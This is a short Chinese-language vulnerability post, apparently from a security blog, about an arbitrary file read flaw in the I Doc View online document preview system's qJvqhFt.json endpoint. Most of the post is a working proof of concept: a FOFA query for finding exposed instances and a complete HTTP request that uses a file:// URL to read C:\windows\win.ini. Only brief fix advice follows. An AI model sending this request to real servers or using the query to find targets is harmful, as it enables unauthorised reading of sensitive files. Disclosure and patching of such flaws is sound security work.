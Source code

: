 #  IDocView在线文档预览qJvqhFt.json任意文件读取漏洞   
原创 骇客安全  骇客安全   2025-02-14 14:09  
  
漏洞描述I Doc View 在线文档预览 qJvqhFt.json 任意文件读取漏洞，攻击者可利用此漏洞收集敏感信息，从而为下一步攻击做准备。漏洞复现1、fofatitle=="在线文档预览 - I Doc View"2、部分界面如下 3、隐患url，验证如下GET /view/qJvqhFt.json?start=1&size=5&url=file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini&idocv_auth=sapi HTTP/1.1Host: your-ipUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: close修复建议1、请联系厂商进行修复。 2、如非必要，禁止公网访问该系统。 3、设置白名单访问。  
  
